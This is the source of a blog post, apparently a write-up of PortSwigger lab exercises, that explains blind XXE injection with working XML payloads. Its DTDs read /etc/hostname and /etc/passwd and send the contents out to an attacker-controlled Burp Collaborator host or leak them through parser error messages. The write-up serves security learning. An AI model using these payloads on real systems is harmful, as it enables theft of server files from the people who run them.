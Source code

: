 ```yaml
---
layout: post
title:  "Blind XXE"
date:   2023-10-16 21:29:20 +0700
categories: jekyll update
usemathjax: true
tag:
  - tips
  - web application
  - XXE
image1:
  - /blind-xxe/img1.PNG
image2:
  - /blind-xxe/img2.PNG
image3:
  - /blind-xxe/img3.PNG
image4:
  - /blind-xxe/img4.PNG
image5:
  - /blind-xxe/img5.PNG
image6:
  - /blind-xxe/img6.PNG
image7:
  - /blind-xxe/img7.PNG
image8:
  - /blind-xxe/img8.PNG
image9:
  - /blind-xxe/img9.PNG
image10:
  - /blind-xxe/img10.PNG
image11:
  - /blind-xxe/img11.PNG
image12:
  - /blind-xxe/img12.PNG
image13:
  - /blind-xxe/img13.PNG
---
```


Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

   1. You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
   2. You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### Detecting Blind XXE Using out-of-band (OAST) Techniques

You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control.

1. Identify injection point.
2. Insert the external entity definition in between the XML declaration and the `stockCheck` element.
3. Replace the `productId` number with a reference to the external entity.

<figure>
<img src="{{ page.image1 }}" alt="">
<figcaption>Fig 1. Injection Point</figcaption>
</figure>

Payload:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

<figure>
<img src="{{ page.image2 }}" alt="">
<figcaption>Fig 2. Inject Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image3 }}" alt="">
<figcaption>Fig 3. Burp Collaborator Callback</figcaption>
</figure>

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.

<figure>
<img src="{{ page.image4 }}" alt="">
<figcaption>Fig 4. Blocked Attack</figcaption>
</figure>

1. The declaration of an XML parameter entity includes the percent character before the entity name.
2. Parameter entities are referenced using the percent character instead of the usual ampersand.

Payload:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```
<figure>
<img src="{{ page.image5 }}" alt="">
<figcaption>Fig 5. Inject Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image6 }}" alt="">
<figcaption>Fig 6. Burp Collaborator Callback</figcaption>
</figure>

### Exploiting Blind XXE to Exfiltrate Data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

<figure>
<img src="{{ page.image7 }}" alt="">
<figcaption>Fig 7. Injection Point</figcaption>
</figure>

Host the malicious DTD on a [system](https://github.com/william5647/Exploit-Server) that we control, normally by loading it onto their own webserver.

<figure>
<img src="{{ page.image8 }}" alt="">
<figcaption>Fig 8. Exploit Server</figcaption>
</figure>

Payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

- Defines an XML parameter entity called file, containing the contents of the /etc/hostname file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

<figure>
<img src="{{ page.image9 }}" alt="">
<figcaption>Fig 9. Inject Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image10 }}" alt="">
<figcaption>Fig 10. Burp Collaborator Callback</figcaption>
</figure>

Victim's hotsname is `a2b1d26fa266`.

### Exploiting Blind XXE to Retrieve Data via Error Messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

<figure>
<img src="{{ page.image11 }}" alt="">
<figcaption>Fig 11. Injection Point</figcaption>
</figure>

Host the malicious DTD on a [system](https://github.com/william5647/Exploit-Server) that we control, normally by loading it onto their own webserver.

<figure>
<img src="{{ page.image12 }}" alt="">
<figcaption>Fig 12. Exploit Server</figcaption>
</figure>

Payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading an invalid file whose name contains the value of the file entity.
- Uses the eval entity, which causes the dynamic declaration of the error entity to be performed.
- Uses the error entity, so that its value is evaluated by attempting to load the invalid file, resulting in an error message containing the name of the invalid file, which is the contents of the /etc/passwd file.

<figure>
<img src="{{ page.image13 }}" alt="">
<figcaption>Fig 13. Inject Payload</figcaption>
</figure>


















IB: Portswigger
